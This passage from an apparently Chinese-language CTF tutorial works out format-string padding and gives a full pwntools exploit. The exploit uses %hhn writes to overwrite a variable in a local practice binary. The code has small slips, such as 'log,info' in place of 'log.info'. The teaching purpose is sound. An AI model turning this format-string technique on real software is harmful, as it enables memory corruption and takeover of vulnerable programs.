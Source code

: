 
3.  具体padding

    #首先一开始我们4个地址占用了16字节，然后我要覆盖成的数字是0x78
    #所以.
    padding_1 = %104c  #(0x78-0x10=0x68=104)
    padding_2 = %222c  #0x56 = 86 ,整数溢出后面章节会学到 16+104+136溢出成0 86+136=222
    padding_3 = %222c  #0x34 = 52 ,16+104+222=342,342-256=86,256-86=170,170+52=222
    padding_4 = %222c  #0x12 = 18 ,564,564-256=308,308-256=52,256-52=204,204+18=222
    

4.  完整EXP：

    #导入pwn模块
    from pwn import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #封装进程,ELF解析
    p   = process("./overflow")
    elf = ELF("./overflow")
    #gdb.attach(p,"b printf")
    
    '''
    exp
    '''
    def exp():
        #获取变量地址
        a_address  = elf.symbols['a']
        b_address  = elf.symbols['b']
        c_address = int(p.recvuntil('\n',drop=True),16)
        log,info("var a: %s" % hex(a_address))
        log,info("var b: %s" % hex(b_address))
        log,info("var c: %s" % hex(c_address))
        #构造Payload
        #78 ce 02 14
        padding_1   = b'%104c'
        padding_2   = b'%222c'
        padding_3   = b'%222c'
        padding_4   = b'%222c'
        address_sum = p32(b_address)+p32(b_address+1)+p32(b_address+2)+p32(b_address+3)
        Payload     = address_sum+padding_1+b'%6$hhn'+padding_2+b'%7$hhn'+padding_3+b'%8$hhn'+padding_4+b'%9$hhn'
        log,info("padding_1: %s" % padding_1)
        log,info("padding_2: %s" % padding_2)
        log,info("padding_3: %s" % padding_3)
        log,info("padding_4: %s" % padding_4)
        log,info("address_sum: %s" % address_sum)
        log,info("Payload: %s" % Payload)
        #发送Payload
        p.sendline(Payload)
    
    #main
    if __name__ == '__main__':
        exp()
        print(p.recv())
    